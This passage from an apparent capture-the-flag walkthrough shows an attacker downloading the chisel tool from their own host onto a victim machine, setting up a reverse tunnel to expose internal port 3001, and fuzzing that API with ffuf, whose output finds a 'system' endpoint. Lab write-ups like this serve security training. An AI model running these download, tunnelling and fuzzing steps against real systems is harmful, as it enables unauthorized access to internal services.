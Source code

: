 ```bash
curl http://192.168.1.181/chisel -O /tmp/chisel
chmod +x /tmp/chisel
```

Now we forward the port: on our attacking machine, we start the chisel service on port `12312`.

```bash
chisel server -p 12312 --reverse
```

and on the victim machine we redirect port `3001` to the IP address of our attacking machine.

```bash
/tmp/chisel client 192.168.1.181:12312 R:3001:127.0.0.1:3001
```

Now that we can access the port from our machine, we analyze it in search of vulnerable endpoints. It is important to note that there are endpoints accessible only through HTTP methods other than GET, and they may respond with HTTP errors for different reasons.

Using the GET method, we found several endpoints, but none were vulnerable; all corresponded to the /api route, which we already had access to from outside (cursodex.thl/api).

Since gobuster only allows fuzzing with the GET method, we use `ffuf`, which is more versatile and allows us to test other methods.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all
```

The parameters:

- -w: Wordlist to use.
- -u: URL to scan.
- -X POST: Send requests using the POST method.
- -mc all: Show pages with any HTTP status code.
- -fc 404: Filter (hide) only responses with status 404 (page not found).

```bash
─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all

        /'___\  /'___\           /'___\   
       /\ \__/ /\ \__/  __  __  /\ \__/   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/  
         \ \_\   \ \_\  \ \____/  \ \_\   
          \/_/    \/_/   \/___/    \/_/   

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

system                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 12ms]
System                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 7ms]
:: Progress: [220559/220559] :: Job [1/1] :: 6896 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```
